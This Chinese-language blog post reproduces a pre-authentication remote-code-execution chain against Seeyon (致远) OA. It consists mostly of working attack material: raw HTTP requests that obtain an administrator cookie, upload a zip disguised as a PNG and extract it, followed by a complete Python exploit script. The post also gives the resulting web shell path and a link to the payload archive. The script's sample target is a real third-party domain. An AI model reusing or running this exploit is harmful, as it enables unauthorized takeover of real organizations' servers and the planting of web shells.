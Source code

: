 # 致远OA 前台getshell 复现
作者: print("") 分类: [漏洞复现](https://www.o2oxy.cn/category/%e5%ae%89%e5%85%a8/%e5%a4%8d%e7%8e%b0) 发布时间: 2021-04-09 17:32 阅读次数: 525 次 

首先是一个获取管理cookie的漏洞。然后上传压缩文件进行解压。达到getshell的目的

    POST /seeyon/thirdpartyController.do HTTP/1.1
    Host: 192.168.10.2
    User-Agent: python-requests/2.25.1
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 133
    Content-Type: application/x-www-form-urlencoded
    
    method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1

上传压缩包

    POST /seeyon/fileUpload.do?method=processUpload HTTP/1.1
    Host:192.168.10.2
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.25.1
    Cookie: JSESSIONID=3495C4DEF87200EA323B1CA31E3B7DF5
    Content-Length: 841
    Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
    
    --59229605f98b8cf290a7b8908b34616b
    Content-Disposition: form-data; name="firstSave"
    
    true
    --59229605f98b8cf290a7b8908b34616b
    Content-Disposition: form-data; name="callMethod"
    
    resizeLayout
    --59229605f98b8cf290a7b8908b34616b
    Content-Disposition: form-data; name="isEncrypt"
    
    0
    --59229605f98b8cf290a7b8908b34616b
    Content-Disposition: form-data; name="takeOver"
    
    false
    --59229605f98b8cf290a7b8908b34616b
    Content-Disposition: form-data; name="type"
    
    0
    --59229605f98b8cf290a7b8908b34616b
    Content-Disposition: form-data; name="file1"; filename="11.png"
    Content-Type: image/png
    
    111
    --59229605f98b8cf290a7b8908b34616b--
    

然后解压

    POST /seeyon/ajax.do HTTP/1.1
    Host: 192.168.10.2
    User-Agent: python-requests/2.25.1
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Cookie: JSESSIONID=BDF7358D4C35C6D2BB99FADFEE21F913
    Content-Length: 157
    
    method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%222021-04-09%22%2C%225818374431215601542%22%5D

getshell 脚本

    # coding: utf-8
    import requests
    import re
    import time
    
    proxy = {'http': '127.0.0.1:8080', 'https': '127.0.0.1:8080'}
    
    
    def seeyon_new_rce(targeturl):
        orgurl = targeturl
    
        # 通过请求直接获取管理员权限cookie
        targeturl = orgurl + 'seeyon/thirdpartyController.do'
        post={"method":"access","enc":"TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04+LjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4","clientPath":"127.0.0.1"}
        response = requests.post(url=targeturl,data=post,proxies=proxy, timeout=60,verify=False)
        rsp = ""
        if response and response.status_code == 200 and 'set-cookie' in str(response.headers).lower():
            cookies = response.cookies
            cookies = requests.utils.dict_from_cookiejar(cookies)
            # 上传压缩文件
            aaa=cookies['JSESSIONID']
            print(aaa)
            targeturl = orgurl + 'seeyon/fileUpload.do?method=processUpload'
            files = [('file1', ('11.png', open('1.zip', 'r'), 'image/png'))]
            print()
            headers = {'Cookie':"JSESSIONID=%s"%aaa}
            data = {'callMethod': 'resizeLayout', 'firstSave': "true", 'takeOver':"false", "type": '0',
                    'isEncrypt': "0"}
            response = requests.post(url=targeturl,files=files,data=data, headers=headers,proxies=proxy,timeout=60,verify=False)
            if response.text:
                reg = re.findall('fileurls=fileurls\+","\+\'(.+)\'',response.text,re.I)
                print(reg)
                if len(reg)==0:
                    exit("匹配失败")
                fileid=reg[0]
                targeturl = orgurl + 'seeyon/ajax.do'
                datestr = time.strftime('%Y-%m-%d')
                post = 'method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%22' + datestr + '%22%2C%22' + fileid + '%22%5D'
                #headers = {'Cookie': cookies}
                headers['Content-Type']="application/x-www-form-urlencoded"
                response = requests.post(targeturl, data=post,headers=headers,proxies=proxy,timeout=60,verify=False)
                print(response.text)
    
    seeyon_new_rce("https://baidu.com/")
    
    

shell地址：`/seeyon/common/designer/pageLayout/a2345678.jsp`

这个压缩包得自己生成了。压缩包里面一定得带有layout.xml  这个文件。空文件也行

例如这样的

![](%E8%87%B4%E8%BF%9COA%20%E5%89%8D%E5%8F%B0getshell%20%E5%A4%8D%E7%8E%B0/%25E5%25BE%25AE%25E4%25BF%25A1%25E6%2588%25AA%25E5%259B%25BE_20210409173136.png)

演示的压缩包如下：

[https://www.o2oxy.cn/wp-content/uploads/2021/04/1.zip](https://www.o2oxy.cn/wp-content/uploads/2021/04/1.zip)